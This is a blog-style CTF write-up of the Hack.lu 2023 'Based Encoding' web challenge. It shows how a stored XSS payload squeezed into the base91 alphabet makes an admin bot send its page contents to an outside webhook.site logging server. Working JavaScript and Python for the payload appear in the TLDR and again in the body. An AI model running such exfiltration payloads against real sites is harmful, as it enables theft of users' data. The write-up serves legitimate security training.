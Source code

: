 ```yaml
---
layout: post
title: "Hack.lu CTF based encoding web challenge writeup"
date: 2023-10-19 07:30:00 +0100
categories: ctf web security writeup htmx
permalink: /posts/ctf-hack-lu-web-based-encoding
---
```


## Based Encoding

CTF name: **[Hack.lu CTF 2023](https://flu.xxx/info)**

Challenge name: **Based Encoding**

Challenge description:

```text
Based encoding as a service. But can we insert a little tomfoolery? Let's find out.
```

Challenge category: **web**

Challenge points: **82**

When: **Fri, Oct. 13, 18:00 — Sun, Oct. 15, 18:00 UTC**

### TLDR - solution

report a `base91` encoded _note_ to admin (**XSS** with a limited character set)

```python
# btoa("https://webhook.site/your-server?data=") ==> aHR0cHM6Ly93ZWJob29rLnNpdGUveW91ci1zZXJ2ZXI/ZGF0YT0=

script="<script>fetch(\"/\")[\"then\"]((data) => data[\"text\"]())[\"then\"]((html)=>location=atob(\"aHR0cHM6Ly93ZWJob29rLnNpdGUveW91ci1zZXJ2ZXI/ZGF0YT0=\")+btoa(html))</script><p>some tag</p>"
result = based91.decode(script)
print(result.hex())

# f0afecd5baf39dac4294fc6dd286f809445ffb0db053e0adb4964677a7ca80e53c0b26c6157004c3e127107ded37c04e814160531bdd758d4365402d67b83360700a022f45a3cc14aa343a2acff513e49aa6e1436fa0ee472443f8433165989534423bd308ede71d1128b3cde436c4dfa9ccad5f10d8d4e0f08f0651410c054aedf14de6a0d55a22d9dcce
```

### Description

![description](/assets/images/2023-10-19/image-1.png)

Challenge was marked as **beginner friendly**. You're greet with a login page. After signing up you get an access to list, create and report (to admin) _encodings_

| login                                              | create                                               | view                                               | list                                                    |
| -------------------------------------------------- | ---------------------------------------------------- | -------------------------------------------------- | ------------------------------------------------------- |
| ![login page](/assets/images/2023-10-19/image.png) | ![create encoding](/assets/images/2023-10-19/t1.png) | ![view encoding](/assets/images/2023-10-19/t2.png) | ![list all encodings](/assets/images/2023-10-19/t3.png) |

After checking the source code and `view_encoding.html` file we can see that it's vulnerable to XSS

![Alt text](/assets/images/2023-10-19/image-5.png)

Inside the `app.py` file you find a flag. It's in a database, but only admin knows the id. So the idea is to prepare an encoding with some XSS, report it to the admin, steal the id and get the flag 😉

![Alt text](/assets/images/2023-10-19/image-7.png)

Our `XSS` script will be encoded using `base91` which means we're limited to the `base91_alphabet`. Other characters will be lost during encoding process

![Alt text](/assets/images/2023-10-19/image-6.png)

Let's analyze the most important file of this challenge. Inside the `app.py` there's the `/create` function where we find the encoding logic

```python
encoded = based91.encode(text.encode() if not (re.match(r"^[a-f0-9]+$", text) and len(text) % 2 == 0) else bytes.fromhex(text))
```

First observation is that you can send encodings as a `.hex()`. Second is that encoding a decoded value will give you the same value (but again, we're limited to the `base91_alphabet`)

```python
result = based91.encode(based91.decode('YOUR_EVIL_SCRIPT_but_._and_ _spaces_ _are_missing'))
print (result)

# YOUR_EVIL_SCRIPT_but__and__spaces__are_missisB
```

Now it's time to prepare a JS script which will steal the admin decodings. Remember we can't use spaces and `.` so we need to access the object using `[]`. Let's fetch `/`, then redirect a user to our server with the page data as a query parameter. We used [webhook.site](https://webhook.site) as a temporary log server

```javascript
// btoa("https://webhook.site/your-server?data=") ==> aHR0cHM6Ly93ZWJob29rLnNpdGUveW91ci1zZXJ2ZXI/ZGF0YT0=

fetch("/")
  ["then"]((data) => data["text"]())
  ["then"](
    (html) =>
      (location =
        atob("aHR0cHM6Ly93ZWJob29rLnNpdGUveW91ci1zZXJ2ZXI/ZGF0YT0=") +
        btoa(html))
  );
```

Now it's time to decode and parse it to hex. Have you noticed these trash characters from before? We've got `missisB` instead of `missing`. It may break our closing `</script>` tag. We'll get rid of this issue by simply adding some random tag at the end of the script

```python
import based91
script="<script>fetch(\"/\")[\"then\"]((data) => data[\"text\"]())[\"then\"]((html)=>location=atob(\"aHR0cHM6Ly93ZWJob29rLnNpdGUveW91ci1zZXJ2ZXI/ZGF0YT0=\")+btoa(html))</><p>some tag</p>"
result = based91.decode(script)
print(result.hex())

# f0afecd5baf39dac4294fc6dd286f809445ffb0db053e0adb4964677a7ca80e53c0b26c6157004c3e127107ded37c04e814160531bdd758d4365402d67b83360700a022f45a3cc14aa343a2acff513e49aa6e1436fa0ee472443f8433165989534423bd308ede71d1128b3cde436c4dfa9ccad5f10d8d4e0f08f0651410c054aedf14de6a0d55a22d9dcce
```

Now it's time to create an encoding. We can see the redirect is working (we're redirected after creating this decoding). Let's grab an id, report it to admin and check our log server

![Alt text](/assets/images/2023-10-19/image-8.png)

And we've got something! Let's decode the data

![Alt text](/assets/images/2023-10-19/image-9.png)

And here's the id! Let's go back to the challenge page, open random decoding and replace the id url parameter

![Alt text](/assets/images/2023-10-19/image-10.png)

so the `flag` is

```text
flag{bas3d_enc0dings_str1p_off_ur_sk1n}
```

### wrong path 1

Trying to steal an admin cookie which was protected by `httpOnly` flag and not accessible via `document.cookie` from the FE

![http only cookie flag](/assets/images/2023-10-19/image-2.png)

### wrong path 2

Trying with different versions of `eval` with the `no-eval` policy in place

![content security policy](/assets/images/2023-10-19/image-3.png)

### wrong path 3

Decoding `session` using [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) and [flask-unsign-wordlist](https://github.com/Paradoxis/Flask-Unsign-Wordlist). Secret is long and random so nearly impossible to crack

![flask-unsign-result](/assets/images/2023-10-19/image-4.png)

{% include posts_footer.html %}
